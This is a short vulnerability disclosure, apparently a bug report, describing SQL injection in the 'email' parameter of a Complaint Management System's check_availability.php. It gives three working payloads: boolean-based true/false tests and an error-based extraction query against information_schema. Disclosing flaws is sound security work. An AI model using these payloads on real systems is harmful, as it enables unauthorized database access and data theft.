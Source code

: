 BUG_Author:Qin Yiqun

Vulnerability File: /Complaint Management System/users/check_availability.php

POST parameter 'email' exists SQL injection vulnerability

Payload1:email=john@gmail.com' and 'u'='u

The sql statement is executed correctly

![image](https://github.com/qinyiqun/bug_report/blob/main/sql1.png)

Payload2:email=john@gmail.com' and 'u'='w

The sql statement was executed incorrectly, causing the page not to be echoed normally

![image](https://github.com/qinyiqun/bug_report/blob/main/sql2.png)

Payload3:email=john@gmail.com' and (select 1 from(select count(*),concat(0x51525354,(select (elt(999=999,1))),0x65666768,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'v'='v

Injection success based on errors

![image](https://github.com/qinyiqun/bug_report/blob/main/sql3.png)
